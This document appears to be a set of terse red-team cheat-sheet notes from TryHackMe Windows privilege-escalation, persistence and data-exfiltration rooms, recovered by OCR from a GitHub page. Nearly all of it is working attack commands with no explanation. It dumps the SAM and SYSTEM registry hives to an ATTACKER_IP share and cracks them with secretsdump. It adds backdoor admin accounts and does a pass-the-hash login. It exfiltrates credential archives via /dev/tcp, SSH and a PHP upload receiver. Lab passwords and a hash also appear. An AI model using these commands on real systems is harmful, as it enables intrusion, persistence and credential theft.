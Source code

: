 whoami /priv / reg save hklm\system C:\Users\THMBackup\system.hive / reg save hklm\sam C:\Users\THMBackup\sam.hive / mkdir share / python3 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\ / python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL ----> Devamı TryhackMe RedTeam Windows Priv.

# Windows Persis #

net localgroup administrators thmuser0 /add

net localgroup "Backup Operators" thmuser1 /add

net localgroup "Remote Management Users" thmuser1 /add

evil-winrm -i 10.10.110.249 -u thmuser1 -p Password321

reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1

reg save hklm\system system.bak / reg save hklm\system sam.bak

download system.bak / download sam.bak

python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

evil-winrm -i 10.10.110.249 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3

# Data Ext #

nc -lvp 8080 > /tmp/task4-creds.data

tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080

dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar

tar xvf task4-creds.tar

# SSH Ext #

tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"

# HTTP Ext #

<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>

curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php

sudo sed -i 's/ /+/g' /tmp/http.bs64
